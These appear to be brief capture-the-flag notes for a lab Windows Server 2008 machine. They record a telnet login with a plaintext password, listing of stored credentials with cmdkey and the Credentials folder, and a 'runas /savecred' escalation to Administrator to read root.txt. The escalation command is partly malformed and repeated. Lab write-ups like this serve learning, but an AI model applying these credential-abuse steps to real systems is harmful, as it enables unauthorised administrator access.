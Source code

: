 ## Telnet -> OS version
````
telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

Login security
Paswword 4Cc3ssC0ntr0ller

C:\Users\security>systeminfo
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
````


## Stored credential on server
````
> cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
                               Type: Domain Password
    User: ACCESS\Administrator
````

## Look credentials
C:\Users\security>dir /a C:\Users\security\AppData\Roaming\Microsoft\Credentials\
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\AppData\Roaming\Microsoft\Credentials

08/22/2018  10:18 PM    <DIR>          .
08/22/2018  10:18 PM    <DIR>          ..
08/22/2018  10:18 PM               538 51AB168BE4BDB3A603DADE4F8CA81290
               1 File(s)            538 bytes
               2 Dir(s)  16,773,267,456 bytes free

==============================================================
## Meth 1 :  Use credentials to run cmd : copy root.txt to Temp
````
C:\Users\security>runas /user:ACCESS\Administrator /savecred "cmd.exe C:\Users\Administrator\Desktop\root.txt > C:\Users\security\AppData\Local\Temp\test.txt"

C:\Users\security>type C:\Users\security\AppData\Local\Temp\test.txt


runas /user:ACCESS\Administrator /savecred "cmd.exe C:\Users\Administrator\Desktop\root.txt > C:\Users\security\AppData\Local\Temp\test.txt"
type C:\Users\security\AppData\Local\Temp\test.txt
````
